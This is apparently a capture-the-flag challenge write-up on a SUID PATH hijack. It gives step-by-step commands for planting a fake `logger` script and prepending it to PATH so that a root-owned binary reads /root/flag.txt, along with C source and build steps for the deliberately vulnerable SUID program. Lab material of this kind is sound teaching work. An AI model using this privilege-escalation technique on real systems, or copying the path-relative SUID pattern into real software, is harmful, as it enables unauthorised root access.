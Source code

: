 # Challenge 10 — SUID PATH Hijack

## Description
Exploit a SUID root program that calls `logger` without a full path. By putting a fake `logger` earlier in `PATH`, the program runs your script as root and reveals the flag.

# Solution
Follow these steps inside the running container as user `ctfuser`.

1. Read the breadcrumbs to understand the hint about `logger` and `PATH`.
   ```bash
   cat /home/ctfuser/README.txt
   cat /opt/notes/sysadmin_note.txt
   ```

2. Confirm there is a SUID binary.
   ```bash
   ls -l /usr/local/bin/vuln
   # expect: -rwsr-xr-x root root ... /usr/local/bin/vuln
   ```
   The `s` shows it runs with root privileges.

3. Notice that it calls `logger` and likely relies on `PATH`.
   ```bash
   strings /usr/local/bin/vuln | grep -i logger || echo "Proceed even if nothing prints"
   ```

4. Create a fake `logger` that copies the flag to a readable file.
   ```bash
   cat > ~/logger <<'EOF'
   #!/usr/bin/env bash
   set -euo pipefail
   cat /root/flag.txt > /tmp/flag.out
   EOF
   chmod +x ~/logger
   ```

5. Put your home directory first in `PATH` and confirm resolution.
   ```bash
   export PATH="$HOME:$PATH"
   command -v logger     # should print /home/ctfuser/logger
   ```

6. Run the SUID program and read the flag.
   ```bash
   /usr/local/bin/vuln
   cat /tmp/flag.out
   ```

**Logic:** The SUID program executes with root’s effective (and real) UID. It calls `logger` without a full path, so the system searches `PATH`. Because your `~/logger` appears first, it runs your script as root and copies `/root/flag.txt` to `/tmp/flag.out`.

# Recreating this challenge
These steps describe how to rebuild the challenge at a high level (no `build.sh`). Use Alpine to keep the image small and Bash for consistency.

1. Create project structure and files.
   - `flag.txt` containing the secret flag (e.g., `flag{suid_path_hijack_works}`).
   - `README.txt` with a short note mentioning that the tool relies on `logger`.
   - `/opt/notes/sysadmin_note.txt` reminding to hardcode full paths for privileged tools.

2. Write the vulnerable program `vuln.c`. It should set real and effective IDs to root, then call `execvp("logger", ...)` (not `system()`), so it searches `PATH` for `logger`.
   ```c
   #include <unistd.h>
   #include <stdio.h>

   int main(void) {
       if (setgid(0) != 0 || setuid(0) != 0) {
           perror("setuid/setgid");
           return 1;
       }
       char *argv[] = {"logger", "-t", "vuln", "user-ran-vuln", NULL};
       execvp("logger", argv);
       perror("execvp");
       return 127;
   }
   ```

3. Build the binary in a temporary builder stage.
   - Base: `alpine:3.20`
   - Install `build-base`
   - Compile with `gcc -O2 -s -o vuln vuln.c`

4. Create the runtime image.
   - Base: `alpine:3.20`
   - Install `bash` (BusyBox already provides `logger`).
   - Create user `ctfuser` with home `/home/ctfuser`.
   - Copy `/root/flag.txt` and set permissions `600`.
   - Copy breadcrumbs to their paths.
   - Copy `/usr/local/bin/vuln` from builder.
   - Set owner to root and permissions to `4755` to enable SUID.
   - Set default user to `ctfuser`, workdir to `/home/ctfuser`, and keep the container alive with a simple Bash loop.
